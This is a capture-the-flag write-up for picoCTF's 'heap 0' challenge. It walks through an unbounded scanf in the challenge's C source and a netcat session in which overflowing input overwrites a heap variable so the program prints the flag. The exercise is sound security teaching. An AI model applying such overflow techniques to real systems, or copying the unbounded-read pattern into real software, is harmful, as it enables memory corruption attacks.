 # [Pwn] heap 0

## 💡 Challenge Description

> *Are overflows just a stack concern?*

## 🔒 ELF Properties

```
rydzze ~ ❯ file chall
chall: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2,
BuildID[sha1]=2015ade3c2b89f5069cb8c54dd750d1b9849062d, for GNU/Linux 3.2.0, with debug_info, not stripped

rydzze ~ ❯ checksec --file=chall
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   No canary found   NX enabled    PIE enabled     No RPATH   No RUNPATH   53 Symbols        No    0               2               chall
```

## ✨ Walkthrough

```
Heap State:
+-------------+----------------+
[*] Address   ->   Heap Data
+-------------+----------------+
[*]   0x5d680dc912b0  ->   pico
+-------------+----------------+
[*]   0x5d680dc912d0  ->   bico
+-------------+----------------+
```

During the program initialisation, we could see that the `input_data` and `safe_var` variables are holding the value `pico` and `bico` respectively.

```c
void check_win() {
    if (strcmp(safe_var, "bico") != 0) {
        printf("\nYOU WIN\n");

        // Print flag
        char buf[FLAGSIZE_MAX];
        FILE *fd = fopen("flag.txt", "r");
        fgets(buf, FLAGSIZE_MAX, fd);
        printf("%s\n", buf);
        fflush(stdout);

        exit(0);
    } else {
        printf("Looks like everything is still secure!\n");
        printf("\nNo flage for you :(\n");
        fflush(stdout);
    }
}
```

Based on the source code given, the `check_win` function wouldn't print out the flag as long the value of `safe_var` is `bico`.

To obtain the flag, we have to overwrite the value stored inside the `safe_var` variable which resides within the heap so that the program will print out the flag.

```c
    void write_buffer() {
        printf("Data for buffer: ");
        fflush(stdout);
        scanf("%s", input_data);
    }
```

When we look at the `write_buffer` function, the `scanf("%s", input_data);` does not limit input size, allowing users to **overwrite memory past input_data**. This is known as heap overflow vulnerability. All we have to do is to overflow the input until we overwrite the `safe_var`.

## 🛠 Exploit

```
rydzze ~ ❯ nc tethys.picoctf.net 65181

Welcome to heap0!
I put my data on the heap so it should be safe from any tampering.
Since my data isn't on the stack I'll even let you write whatever info you want to the heap, I already took care of using malloc for you.

Heap State:
+-------------+----------------+
[*] Address   ->   Heap Data
+-------------+----------------+
[*]   0x56089ada0720  ->   pico
+-------------+----------------+
[*]   0x56089ada0740  ->   bico
+-------------+----------------+

1. Print Heap:          (print the current state of the heap)
2. Write to buffer:     (write to your own personal block of data on the heap)
3. Print safe_var:      (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:          (Try to print the flag, good luck)
5. Exit

Enter your choice: 2
Data for buffer: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

1. Print Heap:          (print the current state of the heap)
2. Write to buffer:     (write to your own personal block of data on the heap)
3. Print safe_var:      (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:          (Try to print the flag, good luck)
5. Exit

Enter your choice: 1
Heap State:
+-------------+----------------+
[*] Address   ->   Heap Data
+-------------+----------------+
[*]   0x56089ada0720  ->   aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
+-------------+----------------+
[*]   0x56089ada0740  ->   aaaaaaaaaaaaaaaaaaaaaaaaaaa
+-------------+----------------+

1. Print Heap:          (print the current state of the heap)
2. Write to buffer:     (write to your own personal block of data on the heap)
3. Print safe_var:      (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:          (Try to print the flag, good luck)
5. Exit

Enter your choice: 4

YOU WIN
picoCTF{REDACTED}
```